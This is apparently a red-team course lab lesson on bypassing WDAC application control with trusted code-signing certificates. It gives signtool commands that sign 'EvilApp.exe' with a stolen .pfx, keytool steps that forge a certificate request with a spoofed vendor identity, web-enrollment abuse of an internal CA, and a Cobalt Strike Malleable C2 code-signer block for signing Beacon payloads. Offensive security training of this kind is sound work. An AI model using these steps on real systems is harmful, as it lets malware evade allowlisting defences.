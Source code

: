 Some organisations build and maintain their own custom [LOB](https://en.wikipedia.org/wiki/Line_of_business) applications which may be signed using an internal certificate authority, such as Active Directory Certificate Services.  Those CAs can be trusted by their WDAC policy, to allow them to sign and deploy their own trusted apps.

WDAC has two levels of certificate policy (three if you count **Root**, but that's currently unsupported).  The first is **Leaf** and the second is **PCA** (short for Private Certificate Authority).  Leaf adds trusted signers at the individual signing certificate level and PCA adds the highest available certificate in the chain (typically one certificate below the root certificate).

Leaf provides more granular control, as every single code-signing certificate issued would have to be trusted individually, but would obviously require more management overhead.  PCA is less robust but easier to manage, because any code-signing certificate issued by a CA can be trusted by WDAC in just a single rule.

  

`SignedApp.exe` on **Workstation 3** is signed using the "SignedApp" certificate, issued by the `redteamops2.local` CA.

![[77. Trusted Signers.png]]


A LeafCertificate rule would look like this:

<Signers>
  <Signer ID="ID_SIGNER_S_1" Name="SignedApp">
    <CertRoot Type="TBS" Value="368FEB688B0C60E99D410D4F70B4C952B2741D263C408AE2FBB84C56C15525B5" />
  </Signer>
</Signers>

  

A PcaCertificate rule like this:

<Signers>
  <Signer ID="ID_SIGNER_S_1" Name="Red Team Ops 2 Sub CA">
    <CertRoot Type="TBS" Value="0118C2C3108850353E71D0253A730747A266FDC0AA433A3FF5E087D10C199A73" />
  </Signer>
</Signers>

  

If you can find an exported private key (.pfx) and associated password, you can simply use `signtool.exe` from the Windows SDK to sign any binary with it.

signtool.exe sign /f SignedAppCert.pfx /p password /fd SHA256 EvilApp.exe

  

Another possibility is to have the CA sign your own certificate signing request.  Cobalt Strike can use such a certificate to automatically generated signed payloads.  This can be especially easy to achieve when the Web Enrollment role is installed.

![[78. Trusted Signers.png]]

First, create a Java KeyStore and complete the information fields.  You can enter anything you want, but when we generate a CSR from this keystore, it will be populated with this information and will ultimately appear in the CA.  We should therefore take some care to make the information look somewhat realistic for the target.

ubuntu@teamserver ~> keytool -genkey -alias server -keyalg RSA -keysize 2048 -keystore keystore.jks
Enter keystore password:
Re-enter new password:
What is your first and last name?
  [Unknown]:  HelpSystems LLC
What is the name of your organizational unit?
  [Unknown]:  Hacker Squad
What is the name of your organization?
  [Unknown]:  HelpSystems LLC
What is the name of your City or Locality?
  [Unknown]:  Eden Prairie
What is the name of your State or Province?
  [Unknown]:  MN
What is the two-letter country code for this unit?
  [Unknown]:  US
Is CN=HelpSystems LLC, OU=Hacker Squad, O=HelpSystems LLC, L=Eden Prairie, ST=MN, C=US correct?
  [no]:  yes

  

Next, generate the code signing request.

ubuntu@teamserver ~> keytool -certreq -alias server -file req.csr -keystore keystore.jks
Enter keystore password:

ubuntu@teamserver ~> cat req.csr
-----BEGIN NEW CERTIFICATE REQUEST-----
MIIC8TCCAdkCAQAwfDELMAkGA1UEBhMCVVMxCzAJBgNVBAgTAk1OMRUwEwYDVQQH
EwxFZGVuIFByYWlyaWUxGDAWBgNVBAoTD0hlbHBTeXN0ZW1zIExMQzEVMBMGA1UE
CxMMSGFja2VyIFNxdWFkMRgwFgYDVQQDEw9IZWxwU3lzdGVtcyBMTEMwggEiMA0G
CSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCJuDtP/bn4y9Ha6J+Cp/ywjGxtvVET
K1do5eflb3gBxSQIqjZ5cxKZyCsiyCG3ALkbcxXsDRFQBElQWTu5ijyRhaLHOmvd
2CH6Bj+VmSqjuYHgBoIfzM5QKYs+uAdAGzveFwVyrjfL+4fj5TEu5XnnLp4d+L5n
vthpM4ABaaVPk82mlkWpDqlxp2LNp33ZPi9yUiMAkGSoBtWUEl9zXXl3G7jz+Tmd
KVxcqRpwVpJ1ibMZ/w9GcWDxTpPjlNIEDwLRFaJyPTXcoa84Xmm4ow7CHWJpOn7R
kXyR8wB4BTY5m+Tl7cFN8CqCNnCWumnYpls2ol3k771hS4ZB6yK6VIq5AgMBAAGg
MDAuBgkqhkiG9w0BCQ4xITAfMB0GA1UdDgQWBBSo06E0GI83Cdb9aBy68TGozbDV
6zANBgkqhkiG9w0BAQsFAAOCAQEAVLZXnnAgnErJ2NUQC2YFzVVyKXI4sRipxXX9
ZzVMOtm3+Z85Cf4/N2Zn7lgaOnkj+70dHSUxTzj+aj083dewGIWoqCgikbkPgNYs
dNslS4dhXqHM68anYUsRTiNqJ5QAYujmRwxWIVO/6WX6nRDA2ZnNS9cMz1Nt3+zZ
YPf5vJp3EmBU2fi3Eg3VHT/LAVoA441Yqfywg99JT3oB7ERw1BvLJ1VTSPBNbKcE
sToMLXbgJ3HMBZzAiwZaDpUT+KJ7oV4z/H+HFMThASPVy+tTBEONiqwuNIflvxcO
ILYhBwhe7NaYsTvruS3wAogSH9sSg2yVesJ786eKTR5B4eyOfw==
-----END NEW CERTIFICATE REQUEST-----

  

On [http://ca.redteamops2.local/certsrv,](http://ca.redteamops2.local/certsrv,) go to **Request a certificate** > **advanced certificate request**.  Paste the CSR into the request box and select **Red Team Ops 2 Code Signing** from the certificate template dropdown.  Then click **Submit**.


![[79. Trusted Signers.png]]

You'll be redirected to the Certificate Issued page where you can download the certificate.  Select **Download certificate chain** and your browser will download **certnew.p7b**.

![[80. Trusted Signers.png]]


Transfer this file onto your team server VM and import it into the keystore.

ubuntu@teamserver ~> keytool -import -trustcacerts -alias server -file certnew.p7b -keystore keystore.jks
Enter keystore password:

Top-level certificate in reply:

Owner: CN=Red Team Ops 2 Root CA, DC=redteamops2, DC=local
Issuer: CN=Red Team Ops 2 Root CA, DC=redteamops2, DC=local
Serial number: 421987c30cad5faa4854f955aca0717b
Valid from: Thu Feb 03 13:50:33 UTC 2022 until: Sun Feb 03 14:00:33 UTC 2047
Certificate fingerprints:
         SHA1: 88:F6:3E:1F:68:88:DD:C7:5C:C0:DC:C2:F4:F0:2B:C8:31:6C:B1:3E
         SHA256: 8C:21:38:A0:5E:B9:F8:1B:DF:DB:37:49:87:73:50:97:F2:C8:E5:9B:FC:31:70:55:93:4E:AC:37:DC:56:15:70
Signature algorithm name: SHA256withRSA
Subject Public Key Algorithm: 2048-bit RSA key
Version: 3

[...snip...]

... is not trusted. Install reply anyway? [no]:  yes
Certificate reply was installed in keystore

  

Copy `keystore.jks` into the cobaltstrike directory and then add the following code block to your Malleable C2 profile:

code-signer {
        set keystore "keystore.jks";
        set password "password";
        set alias "server";
}

  

Restart the team server and go to generate a new EXE payload.  You'll see the **sign executable file** checkbox can now be enabled.

![[81. Trusted Signers.png]]



Copy the new payload across to **WKSTN-3** and it will execute.

![[82. Trusted Signers.png]]

![[83. Trusted Signers.png]]


  **EXERCISE**  
  
Obtain a trusted code signing certificate and sign your Beacon to bypass WDAC on **Workstation 3**.

